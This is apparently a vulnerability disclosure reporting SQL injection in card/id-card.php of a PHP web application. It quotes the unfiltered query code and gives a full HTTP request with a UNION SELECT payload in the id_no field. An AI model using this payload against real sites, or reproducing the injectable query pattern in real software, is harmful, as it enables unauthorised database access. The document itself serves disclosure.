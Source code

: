 ### Vulnerability file address

`card/id-card.php` from line 41

The incoming $id_no variable is not filtered, there is sql injection

```php
......
......
......
if(isset($_POST['search'])){
  $id_no = $_POST['id_no'];
  $sql = "Select * from cards where id_no='$id_no' ";
  $result=$conn->query($sql);
  $rowcount = mysqli_num_rows($result);
......
......
......
```

### POC

not exists any precondition

```http
POST /card/id-card.php HTTP/1.1
Host: www.lms.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 63

id_no=1'+UNION SELECT 1,2,3,4,5,6,7,8,9,10,version()#&search=11
```

### Attack results pictures

![image-20220702171737714](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220702171737.png)
